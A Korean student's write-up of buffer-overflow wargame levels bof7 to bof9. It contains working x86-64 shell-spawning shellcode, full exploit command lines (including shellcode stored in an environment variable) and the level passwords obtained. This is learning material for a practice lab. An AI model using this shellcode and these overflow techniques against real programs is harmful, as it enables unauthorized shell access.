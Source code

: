 ## 마지막

### bof7 

![버퍼](버퍼.PNG)

위의 그림과 같이 main의 argv와 environ가 저장 되는 곳이 stack 보다 더 윗 부분 이기 때문에, argv의 값이 늘어난다면 stack의 시작 위치는 늘어 날 수 밖에 없음을 알 수 있었고, ![7은주소값이바뀜](7은주소값이바뀜.PNG)

설명 해주신 것 처럼 bof7는 프로그램에 들어오는 인자가의 크기에 따라 buf의 주소값이 바뀜을 알 수 있었다. 

그러니 지금 우리가 해야할 일은 우리가 필요한 만큼의 인자 크기를 계산하고, 그 값일 때 해당하는 버퍼의 주소값을 찾아 이 값을 리턴 어드레스에 써야지 퍼버로 입력한 쉘이 작동하게 되어 권한을 얻어서 비밀번호를 찾아 낼 수 있게 된다!



 buf와 return address가지의 거리가 136이고,  그다음에 리턴 주소값으로 필요한 값이 8바이트이기 때문에 총 144바이트가 필요함 하다!

쉘코드: x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05  =>27 바이트

리턴 어드레스: \xd0\xe3\xff\xff\xff\x7f

./bof7 `python -c "print 'x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05 '+'a'*109 +'\xd0\xe3\xff\xff\xff\x7f'"`

라고 생각해서 이렇게 계속 값을 넣어봤지만, 

![7정답](7정답.PNG)

결론적으로 ./bof7 `python -c "print 'x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'+'a'*107+'\x10\xe4\xff\xff\xff\x7f'"`

이 명령어가 익스플로잇을 성공하는 답안이었다! 

![7번136문제](7번136문제.PNG)

왜 때문에 144가 안되는 것인지 이해가 잘 되지 않는다. 대략적으로 보았을때도 136이 세그멘데이션의 값이 뜨는 부분인데, 107의 쓰레기값이 맞아 떨어지는 지 이유는 잘 모르겠다.



bof8비번: 427102c4

---



### bof8

![bof8_c](bof8_c.PNG)

bof8은 bof7와 같이 shellcode가 코드에 심어져 있지 않을 뿐만 아니라, 이를 받을 수 있는 버퍼의 크기 까지 한정되어 있기 때문에 다른 방법을 찾아야 한다. 

그 방법으로는 환경변수로 shellcode를 미리 설정해 주어 shell를 실행 시키는 방법이다.

##### getenv함수란?![getenv](getenv.PNG)

그래서 위의 함수을 쓰기 위해 환경변수로 shellcode를 정해 준다.

export SHELLCODE=`python -c "print '\x90'*10+'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'"`

![shellcode설정](shellcode설정.PNG)

env로 확인해보니 환경 변수가 잘 설정되었음을 알 수 있었다. 

주소값을 확인하기 위해, gdb를 해서 vuln함수의 return값은 알아내었지만 get 함수의 주소값은 찾아내기가 어려웠다.

![8번return주소값](8번return주소값.PNG)

c코드를 살펴보면 if문안으로 들어가는것 없이 get가 실행되야하는데, 위처럼 점프를 해서 바로 leave함수로 가버리고 그렇다면 맞는 인자를 넣어야하나 라는 생각대문에 <<<를 사용해서 인자값을 넣어보고자 하였지만 딱히 gdb가 실행되지 않았다.

![8번get조건](8번get조건.PNG)

(python -c "print 'x'*24+'\x12\xe8\xff\xff\xff\x7f'";cat) | ./bof8

![9번정답](9번정답.PNG)

bof9답: 83fd47cf

#### bof9

![bof9](bof9.PNG)

bof8번이랑 비슷한데 상황이 악화되었다.. 환경변수도 쓰지 못한다...이걸어쩌지...

![버퍼와리턴어드레스](버퍼와리턴어드레스.PNG)

버퍼와 리턴 어드레스 차이를 계속 구하고 싶었는데 nextcall에서 leave로 바로 넘어간다. 전에 풀었던 것과 같은 식으로 계속넘어가서 방법을 찾지 못하겠다...!

![시스템주소값](시스템주소값.PNG)

위에가 system 함수의 주소값이고, 아래가 /bin/sh 무자열의 주소값이다.

![bin](bin.PNG)

사실 9번은 어떤 방식으로 흘러가는지 설명을 글을 보아도 이해가 잘 되지 않는다.... 새로운 방법을 쓰는 것같은데 어떤식으로 접근해야하는지 이해가 잘 되지 않는다...